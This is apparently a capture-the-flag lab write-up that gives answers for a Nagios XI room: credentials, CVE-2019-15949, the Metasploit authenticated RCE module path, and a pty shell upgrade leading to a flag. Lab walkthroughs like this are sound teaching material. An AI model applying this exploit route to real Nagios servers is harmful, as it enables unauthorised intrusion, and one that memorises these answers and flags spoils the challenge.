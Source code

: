 ```bash
nagiosadmin
```

### #4 What is the password you found?

[BertNase's Own - npiet fun!](https://www.bertnase.de/npiet/npiet-execute.php)

<div className="Image__Medium">
  <img src="https://imgur.com/7h7Snvu.png" alt="blog_image" />
</div>

```bash
n3p3UQ&9BjLp4$7uhWdY
```

### #5 What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

[jakgibb/nagiosxi-root-rce-exploit](https://github.com/jakgibb/nagiosxi-root-rce-exploit)

```bash
CVE-2019-15949
```

### #6 Now that we've found our vulnerability, let's find our exploit. For this

section of the room, we'll use the Metasploit module associated with
this exploit. Let's go ahead and start Metasploit using the command
`msfconsole`.

```bash
No responses
```

### #7 After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting withexploit) for the exploitation module?

<div className="Image__Medium">
  <img src="https://imgur.com/JzigN7U.png" alt="blog_image" />
</div>

```bash
linux/http/nagios_xi_authenticated_rce
```

### #8 Compromise the machine and locate user.txt

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
$ cd /home
$ ls
galand
$ cd galand
$ ls
nagiosxi  user.txt
$ cat user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}

```
